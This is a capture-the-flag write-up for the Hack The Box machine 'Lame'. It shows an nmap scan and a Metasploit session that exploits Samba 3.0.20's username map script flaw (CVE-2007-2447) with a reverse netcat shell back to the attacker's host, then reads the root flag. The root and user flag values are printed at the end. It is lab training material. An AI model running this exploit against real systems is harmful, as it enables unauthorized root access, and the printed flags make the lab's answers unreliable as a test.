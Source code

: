 ```yaml
---
title: "HTB: LAME"
author: "v3l1d"
date: "2024-08-04"
---  
```

![](attachment/43ebccb6774d75bacfaa80b40cc8e5ce.png)
### Port Scan

```
"Nmap 7.94SVN scan initiated Sat Aug 10 08:35:19 2024 as: nmap -sC -sV -A -T4 -Pn -o scan 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.15s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 ```
Anonymous connection FTP but nothing there

# CVE-2007-2447

Looking online i found this vulnerability for this version of 


```text
┌──(kali㉿kali)-[~/HTB/Lame]
└─$ msfconsole                                                                      
Metasploit tip: Use the resource command to run commands from a file
                                                  
     ,           ,
    /             \                                                                                                                 
   ((__---,,,---__))                                                                                                                
      (_) O O (_)_________                                                                                                          
         \ _ /            |\                                                                                                        
          o_o \   M S F   | \                                                                                                       
               \   _____  |  *                                                                                                      
                |||   WW|||                                                                                                         
                |||     |||                                                                                                         
                                                                                                                                    

       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2420 exploits - 1248 auxiliary - 423 post       ]
+ -- --=[ 1465 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search smb 3.0.20
[-] No results from search
msf6 > smb 3.0.20
[-] Unknown command: smb. Run the help command for more details.                                                                                                 
msf6 > search samba 3.0                                                                                                                                          
                                                                                                                                                                 
Matching Modules                                                                                                                                                 
================                                                                                                                                                 
                                                                                                                                                                 
   #   Name                                                   Disclosure Date  Rank       Check  Description                                                     
   -   ----                                                   ---------------  ----       -----  -----------
   0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   1   exploit/linux/samba/chain_reply                        2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   2     \_ target: Linux (Debian5 3.2.5-4lenny6)             .                .          .      .
   3     \_ target: Debugging Target                          .                .          .      .
   4   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   5     \_ target: Linux vsyscall                            .                .          .      .
   6     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
   7     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
   8     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
   9     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
   10    \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
   11    \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
   12    \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
   13    \_ target: DEBUG                                     .                .          .      .
   14  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15    \_ target: Automatic                                 .                .          .      .
   16    \_ target: Mac OS X 10.4.x x86 Samba 3.0.10          .                .          .      .
   17    \_ target: Mac OS X 10.4.x PPC Samba 3.0.10          .                .          .      .
   18    \_ target: DEBUG                                     .                .          .      .
   19  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   20    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
   21    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
   22    \_ target: DEBUG                                     .                .          .      .


Interact with a module by name or index. For example info 22, use 22 or use exploit/solaris/samba/lsa_transnames_heap
After interacting with a module you can manually set a TARGET with set TARGET 'DEBUG'

msf6 > use exploit/multi/samba/usermap_script 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.163.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(multi/samba/usermap_script) > set LPORT 9091
LPORT => 9091
msf6 exploit(multi/samba/usermap_script) > exploit

[-] Msf::OptionValidateError One or more options failed to validate: RHOSTS.
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set RPORT 139
RPORT => 139
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.185:9091 
[*] Command shell session 1 opened (10.10.14.185:9091 -> 10.10.10.3:47888) at 2024-08-10 09:35:50 -0400

whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
6118f8816315bd33ecac622d179c65af
```


![](attachment/95e2ca9714b079079c673225e5a17f15.png)![](attachment/e0218db999901f943bf934f889d0edec.png)

### Flags

```

root:6118f8816315bd33ecac622d179c65af
user:15fd56e82fdefb166bfb1631b6c6360a

```